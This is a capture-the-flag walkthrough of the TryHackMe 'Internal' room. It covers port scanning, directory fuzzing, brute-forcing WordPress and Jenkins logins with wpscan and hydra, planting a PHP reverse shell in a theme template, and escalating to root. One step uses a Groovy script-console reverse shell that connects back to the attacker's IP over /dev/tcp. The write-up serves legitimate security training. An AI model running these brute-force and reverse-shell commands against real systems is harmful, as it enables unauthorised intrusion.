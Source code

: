 ```yaml
---
title: Internal Writeup || Tryhackme
date: 2024-11-29 00:00:00 +0800
categories: [Tryhackme, Offensive Pentesting Path]
tags: [tryhackme, writeup, walkthrough, linux]     # TAG names should always be lowercase
description: This is a Writeup for Internal Room Which is a part of the offensive pentesting path on Tryhackme
---
```


### Scanning

We will start with scanning our machine, Let's start by adding *internal.thm* to our /etc/hosts file and then start our nmap scan

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

### Enumeration

As we can see there is no much to look through so we will make the http port our first target, we will go to see what we have 

![img-description](/assets/img/Internal/Internal_Default.png)
_Default page_

and as we can see it's a default page for the apache server so we will try to fuzz the website directories using *ffuf*

#### Fuzzing

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u 'http://10.10.77.170/FUZZ' -r                       

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.77.170/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 2450ms]
blog                    [Status: 200, Size: 53942, Words: 3347, Lines: 330, Duration: 121ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 4459ms]
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 4405ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 5411ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 77ms]
javascript              [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 77ms]
phpmyadmin              [Status: 200, Size: 10531, Words: 504, Lines: 26, Duration: 1238ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 78ms]
:: Progress: [4614/4614] :: Job [1/1] :: 529 req/sec :: Duration: [0:00:12] :: Errors: 0 ::
```

we found a directory called *blog* so we will head to it to see it's contents 

![img-description](/assets/img/Internal/Internal_blog.png)
_Blog_

i have found that the website is running on wordpress and i have found a login page which redirected me to the wp login page so i will start by trying a deafult credentials *Username:admin* *Password:admin*

![img-description](/assets/img/Internal/Internal_wp.png)
_wplogin_

We will find that it tells us *Error: The password you entered for the username admin is incorrect.* which means that there is a username called admin so we will try to get access to the system with this username

### Gaining access

We will use a tool called *wpscan* to try bruteforcing the password of the admin 

using this command

```
wpscan --url http://internal.thm/blog/wp-login.php -U admin -P /usr/share/wordlists/rockyou.txt
```

and we got a hit we now have access to the wp panel

![img-description](/assets/img/Internal/Internal_creds.png)
_AdminCreds_

#### Reverse Shell

Now we will go to Appearance > Theme Editor and on the right we will find something called 404 Template which as we can see a php code so we can change the code of this page to a php reverse shell to gain access to the webserver.

you can find the reverse shell here [Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![img-description](/assets/img/Internal/Internal_rev.png)
_ReverseShell_
 
 you must change your ip address and your port to open a nc listener with the port in the code and after this you can head to *internal.thm/blog/wp-content/themes/twentyseventeen/404.php* to execute our reverse shell and we will find that we got access

 ![img-description](/assets/img/Internal/Internal_access.png)
_Access_

#### User Access

Now we want to stabilize our shell so that we can exeplore our system more so we will use this command

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

After that we will start by seeing the users on the system by viewing the */etc/passwd* file which contains the system users and we will find a user called *aubreanna*

```
aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
```

in order to get access to this user i tried to explore the directories first and in the */opt* directory i have found a file named wp-save.txt
and it contains the user creds

 ![img-description](/assets/img/Internal/Internal_aubreanna.png)
_aubreanna_

And now we can get the user flag

```
aubreanna@internal:~$ cat user.txt
THM{int************}
```

### Privilege Escalation

We will find an intersting file called jenkins.txt so we will open it and we will find that it tells us that there is a jenkin service running *jenkin* is a standalone application for continuous integration and continuous delivery of software.

 ![img-description](/assets/img/Internal/Internal_jenkins.png)
_jenkins_

so in order to see it we must do local port forwarding using this command

```
ssh -L 9999:172.17.0.2:8080 aubreanna@10.10.77.170 
```

and now we can access it by typing in our browser *localhost:9999*

we will find that it is a default jenkins login page 

 ![img-description](/assets/img/Internal/Internal_JL.png)
_jenkinsLogin_

Now we can try to brute force it using hydra to see if we can get access, you can intercept the request in burpsuite to get the request and use this command 

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 9999 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid"
```

we will find that we got a hit

 ![img-description](/assets/img/Internal/Internal_Jc.png)
_jenkinsCreds_

In order to get access we must find a place that we can get a reverse shell from so after some search you can go to Manage Jenkins > Tools and Actions > Script Console

we will find that we can *Type in an arbitrary Groovy script and execute it on the server.* so i will open a listener on my machine and execute the script

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.23.53.56/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

And from the listener we have opened we will find that we got access, when again seeing files in the directories in the */opt* we will find another root with the root password this time

 ![img-description](/assets/img/Internal/Internal_RootPass.png)
_Rootpass_

Now we can ssh to the root user and get our root flag

```
root@internal:~# cat root.txt
THM{d0ck3r_********}
```

